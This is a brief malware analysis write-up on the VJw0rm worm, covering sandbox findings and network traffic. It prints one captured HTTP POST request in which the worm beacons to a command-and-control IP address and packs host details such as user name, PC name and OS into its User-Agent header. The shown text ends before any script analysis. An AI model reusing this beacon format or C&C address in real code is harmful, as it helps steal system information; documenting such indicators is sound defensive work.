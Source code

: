   


  
VJw0rm is a worm that was first released in November 2016 by its primary author, v_B01 (aka Sliemerez).  [^1] It has different variant in JavaScript, Visual Basic, and powershell. This worm steals some system information and executes some commands from a command and control (C&C) server.
  

## Technical Analysis


  
The technical analysis of the VJw0rm consist of sandbox analysis which is done in an online platfrom (app.any.run). Then the PCAP file of the network traffic is analyzed. As the last step, the  malware script file is analyzed to get more insight on its behavior.



### Sandbox



As the first step the virus was analyzed in the *app.any.run* online platform, which reported some malicious behaviour such as writing to start menu file, connecting to command and control (C&C) server, also several suspicious behaviour such as executing scripts, creating files in user directory, application launching itself, reading computer name was reported.



### PCAP

  

Then the PCAP file related to the malware traffic was analyzed, the followings are some important points in the PCAP file:


By analyzing the HTTP packet, I found out that the malware sends a POST request in which the user-agent header contains unusual information.

The *Host* shows the ip address of the cnc server that the malware communicates with.

  

```http

POST /Vre HTTP/1.1

Accept : */*
Accept-Language : en-US
User-Agent : thechem0rder2223_C4BA3647\USER-PC\admin\Microsoft Windows 7 Professional \undefined\\YES\FALSE\
Accept-Encoding : gzip, deflate
Host : 185.157.162.75:2223
Content-Length : 0
Connection : Keep-Alive
Cache-Control : no-cache
```

*Box1: Content of HTTP request*


[^1]:  (https://malpedia.caad.fkie.fraunhofer.de/details/win.vjw0rm)